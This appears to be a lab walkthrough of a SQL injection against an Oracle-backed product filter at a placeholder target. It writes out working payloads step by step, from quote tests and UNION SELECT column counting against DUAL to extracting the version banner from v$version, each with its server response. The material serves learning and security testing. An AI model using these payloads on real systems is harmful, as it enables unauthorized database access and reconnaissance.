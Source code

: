 # SQL injection attack, querying the database type and version on Oracle

### Goal:
`Display the database version`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using an Oracle database
<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data with UNION attack</ins>**

Since the database is Oracle, we must use Oracle-specific syntax.<br><br>

category='UNION SELECT NULL FROM DUAL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL FROM DUAL--

`200`

This means that the query outputs two values.
<br><br>

category='UNION SELECT 'a','b' FROM DUAL--

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data.
<br><br>

**<ins>Step 3: Exploit the vulnerability</ins>**

category='UNION SELECT banner,NULL FROM v$version--

`Success!`

In a normal request, the database would output a product's name and description. This query prompts it to return the database version instead of a name, giving us valuable information for further probing.